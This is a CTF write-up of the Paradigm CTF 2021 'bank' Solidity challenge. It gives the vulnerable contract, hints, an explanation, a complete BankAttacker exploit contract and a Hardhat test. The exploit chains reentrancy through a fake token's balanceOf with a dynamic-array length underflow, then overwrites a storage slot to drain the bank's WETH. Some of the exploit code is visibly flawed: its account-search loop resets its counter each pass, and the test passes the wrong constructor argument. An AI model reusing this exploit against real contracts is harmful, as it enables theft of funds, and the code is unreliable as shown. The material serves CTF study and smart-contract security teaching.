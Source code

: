 ```yaml
---
layout: post
title: 'Paradigm CTF 2021: bank'
category: Paradigm CTF 2021
excerpt_separator:  <!--more-->
---
```


### Challenge:
This write-up is for the challenge titled 'bank'.


This challenge is located in the bank/public/ directory. The source code can be found below:

<details>
<summary> Bank.sol:</summary>
<br>
<div markdown="1">
```
pragma solidity 0.4.24;

contract ERC20Like {
    function transfer(address dst, uint qty) public returns (bool);
    function transferFrom(address src, address dst, uint qty) public returns (bool);
    function approve(address dst, uint qty) public returns (bool);
    
    function balanceOf(address who) public view returns (uint);
}

contract Bank {
    address public owner;
    address public pendingOwner;
    
    struct Account {
        string accountName;
        uint uniqueTokens;
        mapping(address => uint) balances;
    }
    
    mapping(address => Account[]) accounts;
    
    constructor() public {
        owner = msg.sender;
    }
    
    function depositToken(uint accountId, address token, uint amount) external {
        require(accountId <= accounts[msg.sender].length, "depositToken/bad-account");
        
        // open a new account for the user if necessary
        if (accountId == accounts[msg.sender].length) {
            accounts[msg.sender].length++;
        }
        
        Account storage account = accounts[msg.sender][accountId];
        uint oldBalance = account.balances[token];
        
        // check the user has enough balance and no overflows will occur
        require(oldBalance + amount >= oldBalance, "depositToken/overflow");
        require(ERC20Like(token).balanceOf(msg.sender) >= amount, "depositToken/low-sender-balance");
        
        // increment counter for unique tokens if necessary
        if (oldBalance == 0) {
            account.uniqueTokens++;
        }
        
        // update the balance
        account.balances[token] += amount;
        
        // transfer the tokens in
        uint beforeBalance = ERC20Like(token).balanceOf(address(this));
        require(ERC20Like(token).transferFrom(msg.sender, address(this), amount), "depositToken/transfer-failed");
        uint afterBalance = ERC20Like(token).balanceOf(address(this));
        require(afterBalance - beforeBalance == amount, "depositToken/fee-token");
    }
    
    function withdrawToken(uint accountId, address token, uint amount) external {
        require(accountId < accounts[msg.sender].length, "withdrawToken/bad-account");
        
        Account storage account = accounts[msg.sender][accountId];
        uint lastAccount = accounts[msg.sender].length - 1;
        uint oldBalance = account.balances[token];
        
        // check the user can actually withdraw the amount they want and we have enough balance
        require(oldBalance >= amount, "withdrawToken/underflow");
        require(ERC20Like(token).balanceOf(address(this)) >= amount, "withdrawToken/low-sender-balance");
        
        // update the balance
        account.balances[token] -= amount;
        
        // if the user has emptied their balance, decrement the number of unique tokens
        if (account.balances[token] == 0) {
            account.uniqueTokens--;
            
            // if the user is withdrawing everything from their last account, close it
            // we can't close accounts in the middle of the array because we can't
            // clone the balances mapping, so the user would lose all their balance
            if (account.uniqueTokens == 0 && accountId == lastAccount) {
                accounts[msg.sender].length--;
            }
        }
        
        // transfer the tokens out
        uint beforeBalance = ERC20Like(token).balanceOf(msg.sender);
        require(ERC20Like(token).transfer(msg.sender, amount), "withdrawToken/transfer-failed");
        uint afterBalance = ERC20Like(token).balanceOf(msg.sender);
        require(afterBalance - beforeBalance == amount, "withdrawToken/fee-token");
    }
    
    // set the display name of the account
    function setAccountName(uint accountId, string name) external {
        require(accountId < accounts[msg.sender].length, "setAccountName/invalid-account");
        
        accounts[msg.sender][accountId].accountName = name;
    }
    
    // close the last account if empty - we need this in case we couldn't automatically close
    // the account during withdrawal
    function closeLastAccount() external {
        // make sure the user has an account
        require(accounts[msg.sender].length > 0, "closeLastAccount/no-accounts");
        
        // make sure the last account is empty
        uint lastAccount = accounts[msg.sender].length - 1;
        require(accounts[msg.sender][lastAccount].uniqueTokens == 0, "closeLastAccount/non-empty");
        
        // close the account
        accounts[msg.sender].length--;
    }
    
    // get info about the account
    function getAccountInfo(uint accountId) public view returns (string, uint) {
        require(accountId < accounts[msg.sender].length, "getAccountInfo/invalid-account");
        
        return (
            accounts[msg.sender][accountId].accountName,
            accounts[msg.sender][accountId].uniqueTokens
        );
    }
    
    // get the balance of a token
    function getAccountBalance(uint accountId, address token) public view returns (uint) {
        require(accountId < accounts[msg.sender].length, "getAccountBalance/invalid-account");
        
        return accounts[msg.sender][accountId].balances[token];
    }
    
    // transfer ownership to a new address
    function transferOwnership(address newOwner) public {
        require(msg.sender == owner);
        
        pendingOwner = newOwner;
    }
    
    // accept the ownership transfer
    function acceptOwnership() public {
        require(msg.sender == pendingOwner);
        
        owner = pendingOwner;
        pendingOwner = address(0x00);
    }
}
```
</div>
</details>

<details>
<summary> Setup.sol:</summary>
<br>
<div markdown="1">
```
pragma solidity 0.4.24;

import "./Bank.sol";

contract WETH9 is ERC20Like {
    function deposit() public payable;
}

contract Setup {
    WETH9 public constant weth = WETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    Bank public bank;
    
    constructor() public payable {
        require(msg.value == 50 ether);
        
        bank = new Bank();
        
        weth.deposit.value(msg.value)();
        weth.approve(address(bank), uint(-1));
        bank.depositToken(0, address(weth), weth.balanceOf(address(this)));
    }
    
    function isSolved() external view returns (bool) {
        return weth.balanceOf(address(bank)) == 0;
    }
}

```
</div>
</details>


The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
This challenge requires stringing together at least two different issues. One of them is unique to solidity verisions < 0.8.0.
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
The core issue here is that you can underflow the length of a dynamic array.

</div>
</details>

The solution for this level can be found below:

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
Due to the fact that storage for a contract is essentially a single 2^256 - 1 long [array](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/), underflowing a dynamic array means that the array size is large enough to contain any location in storage. This becomes an especially important issue when you combine the fact that we have the ability to write to this dynamic array. This gives us a classic write-what-where condition. If we can abuse this, we can write ourselves a balance and withdraw funds from the bank.

So, how do we do this? Well, first we have to actually trigger the underflow. This is non-trivial, as there are a few conditions that need to be met. We can first see that every time we open a new account, we increment the `accounts[].length` value. To trigger the underflow, we want to get this value to 0 and then to decrement it. There are two ways in which we can decrement this value in the contract: withdrawing tokens and closing our last account. 

There are a few caveats here:
* To withdraw a token or close an account, we need to have an account already set up as the length cannot be 0.
* To decerement the length in either function, the uniqueTokens must be 0.

So what gives here? Well, we are going to have to leverage a second issue to be able to match the conditions so that we can execute both the `withdrawToken()` function and the `closeLastAccount()` function in the same transaction. This is possible because in the `withdrawToken()`, the account length requirement is performed before an external call is made to a passed in address. Yep, we are going to have to exploit a reentrancy issue. A non-trivial one at that.

In order to match the conditions, we want to create a scenario in which by the time it gets to the decrement inside of `withdrawToken()`, we have uniqueTokens = 1 and the length = 0. Playing around with this, we will see that this is easier to do if we actually have two accounts initially opened. The solution contract contains comments that explain in detail each step of the reentrancy exploit.

Ok, array overflowed but we still need to write to the correct location in storage in order to give ourselves a balance of WETH to withdraw from the bank. Another interesting obstacle is that the location in memory we can write to using `setAccountName()` is accounts[msg.sender][accountId].name. What we really want to overwrite however, is the location accounts[msg.sender][accountId].balances[WETH]. Essentially, this boils down to solving for x in the following equation `location(accounts[msg.sender][accountId].balances[WETH]) = location(accounts[msg.sender][x].name)` where location simply donotes the variable's location in storage. The solution contract contains comments that explain in detail each step of the calculations used to gather the storage location and accountId to pull off the entire exploit. Due to the use of a struct in the contract and the resulting integer division by 3 in the calculation, multiple accountIds had to be tried to find one that would lead to the correct location in memory.

Putting it all together, we use reentrancy to exploit a dynamic array underflow and then solve for an accountId and corresponding location in memory. We then use `setAccountName()` to set the value to something greater than 50 ether and then we call withdraw on that accountId. Finally, we profit!
</div>
</details>

<details>
<summary> Hardhat Challenge:</summary>
<br>
<div markdown="1">
```
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] bank', function () {

    before(async function () {
        /** SETUP */
        [deployer, attacker] = await ethers.getSigners();

        const Setup = await ethers.getContractFactory('SetupBank', deployer);
        this.setup = await Setup.deploy({value: ethers.utils.parseEther('50')});

        const Bank = await ethers.getContractFactory('Bank', deployer);
        this.bank = await Bank.attach(await this.setup.bank());

        const WETH = await ethers.getContractFactory('WETH9', deployer);
        this.weth = await WETH.attach(await this.setup.weth());

    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */

    });

    after(async function () {
        /** SUCCESS CONDITIONS */
        expect (await this.weth.balanceOf(this.bank.address)
        ).to.equal(0);

        expect(
            await this.setup.isSolved()
        ).to.equal(true);
    });
});
```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
import "./SetupBank.sol";
pragma solidity 0.4.24;

contract BankAttacker is ERC20Like {
    SetupBank public setup;
    Bank public bank;
    uint256 bankBalance;
    WETH9 weth;
    uint256 counter;

    constructor(address _setup, uint256 _balance, address _weth) {
        setup = SetupBank(_setup);
        bank = setup.bank();
        bankBalance = _balance;
        weth = WETH9(_weth);
    }
    
    function transfer(address dst, uint qty) public returns (bool){
        return true;
    }
    function transferFrom(address src, address dst, uint qty) public returns (bool) {
        return true;
    }
    function approve(address dst, uint qty) public returns (bool) {
        return true;
    }
    function balanceOf(address who) public view returns (uint) {
        // skip the first 4 setup calls
        if (counter < 12 ) {
            ++counter;
        } else if (counter == 12) {
            ++counter;
            // Start: uniqueTokens(0) = 0, uniqueTokens(1) = 0, length = 1
            bank.closeLastAccount();
            // End: uniqueTokens(0) = 0, uniqueTokens(1) = 0, length = 0

            // Start: uniqueTokens(0) = 0, uniqueTokens(1) = 0, length = 0
            bank.depositToken(0, address(this), 0);
            // End 1: uniqueTokens(0) = 0, uniqueTokens(1) = 0, length = 1
            // End 2: uniqueTokens(0) = 1, uniqueTokens(1) = 0, length = 0

        } else if (counter == 13) {
            // hits this on the above depositToken() call
            ++counter; 
            // Start: uniqueTokens(0) = 0, uniqueTokens(1) = 0, length = 1
            bank.closeLastAccount();
            // End: uniqueTokens(0) = 0, uniqueTokens(1) = 0, length = 0
        }
        return bankBalance; 
    }

    function attack() public payable {

        // Start: uniqueTokens(0) = 0, length = 0
        bank.depositToken(0, address(this), 0); 
        // End: uniqueTokens(0) = 1, length = 1

        // Start: uniqueTokens(0) = 1, length = 1
        bank.depositToken(1, address(this), 0);
        // End: uniqueTokens(0) = 1, uniqueTokens(1) = 1, length = 2

        // Start: uniqueTokens(0) = 1, uniqueTokens(1) = 1, length = 2
        bank.withdrawToken(0, address(this), 0); 
        // End: uniqueTokens(0) = 0, uniqueTokens(1) = 1, length = 2

        // Start: uniqueTokens(0) = 0, uniqueTokens(1) = 1, length = 2
        bank.withdrawToken(1, address(this), 0); 
        // End: uniqueTokens(0) = 0, uniqueTokens(1) = 0, length = 1

        // Note that uniqueTokens(0) would underflow on the next withdrawal if we did not
        // increment just the unique tokens value before it falls
        // and hence the requirement to deposit only to close the acount immediately after
        // for the full view of middle steps, check the 'balanceOf()' function

        // Start: uniqueTokens(0) = 0, uniqueTokens(1) = 0, length = 1
        bank.withdrawToken(0, address(this), 0);
        // End: uniqueTokens(0) = 0, uniqueTokens(1) = 0, length = 2^256 - 1
    
        // We have arbitrary write to accounts[msg.sender][accountId].accountName, so now we need to
        // solve for which accountId value passed in will overwrite a known
        // balance location in accounts[msg.sender][accountId].balances[token] in memory
        uint256 accountId = 0;
        uint256 overwriteLoc = 0;
        while (true) {
            uint256 i = 0;
            (bool success, uint256 location) = getBalanceLocation(i);
            if (success) {
                overwriteLoc = location;
                accountId = i;
                break;
            }
            ++i;
        }

        bank.setAccountName(overwriteLoc, "A");
        bank.withdrawToken(accountId, address(weth), 50 ether);

    }

    function mapLocation(uint256 slot, address key) public view returns (uint256) {
        return uint256(keccak256(uint256(key), slot));
    }
    function arrLocation(uint256 slot, uint256 index, uint256 elementSize)
    public
    view
    returns (uint256)
    {
        return uint256(keccak256(slot)) + (index * elementSize);
    }

    function getBalanceLocation(uint256 accountId) public view returns (bool, uint256) {
        // find accounts[msg.sender]
        uint256 userLoc = mapLocation(2, address(this));

        // find accounts[msg.sender][accountId]
        // = accounts[msg.sender][accountId].name
        uint256 accountLoc = arrLocation(userLoc, accountId, 3);

        // find accounts[msg.sender][accountId]+2
        // = accounts[msg.sender][accountId].balances
        uint256 balanceLoc = arrLocation(userLoc, accountId, 3) + 2;

        // = accounts[msg.sender][accountId].balances[token]
        uint256 wethBalanceLoc = mapLocation(balanceLoc, address(weth));
        
        // we want location(accounts[msg.sender][accountId].balances[token]) = location(accounts[msg.sender][x].name)
        // wethBalanceLoc = arrLocation(userLoc, x, 3)
        // wethBalanceLoc = uint256(keccak256(userLoc)) + x * 3
        // x = (wethBalanceLoc - uint256(keccak256(userLoc))) / 3
        uint256 dividend = (wethBalanceLoc - uint256(keccak256(userLoc)));
        uint256 location = (dividend) / 3;

        // integer division by 3, if it doesn't work we'll just check another accountId
        if (dividend % 3 == 0) {
            return (true, location);
        } else {
            return (false, location);
        }

    }

}

```
</div>
</details>

<details>
<summary> HardHat Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
        const BankAttacker = await ethers.getContractFactory('BankAttacker', deployer);
        this.bankAttacker = await BankAttacker.deploy(this.setup.address, this.bank.address, this.weth.address);

        await this.bankAttacker.attack()
    });
```
</div>
</details>


